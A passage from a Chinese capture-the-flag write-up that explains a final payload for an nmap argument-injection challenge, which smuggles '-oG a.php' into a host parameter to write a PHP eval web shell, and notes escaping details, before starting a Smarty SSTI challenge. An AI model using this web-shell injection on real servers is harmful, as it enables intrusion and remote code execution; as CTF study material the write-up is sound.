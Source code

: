 最终 payload 如下

```
?host='<?php eval($_REQUEST[1])?> -oG a.php '
```

注意 a.php 后要有一个空格, 如果不加空格的话, 第二次转义过后生成的 `'\\'''` 会和文件名连在一起, 最终写入的文件名会变成 `a.php\\`

这题网上**很多 wp**都在说最开头的引号后面要加空格, 例如 `?host=' <?php eval($_REQUEST[1])?> -oG a.php '`, 但实际上不用加空格也能够成功写入

不加空格的话文件里的 php 代码就会变成这样

```php
\\<?php eval($_REQUEST[1]);?>
```

前面的 `\\` 对 php 解析是完全没有影响的, 只是看起来像把 `<` 给转义成 `\<` 了

![](assets/202208251606019-170074459625431.png)

## [BJDCTF2020]The mystery of ip（SSTI，smarty）

hint.php 里有一句 `<!-- Do you know why i know your ip? -->`

第一时间想到的是 xff 头伪造 ip
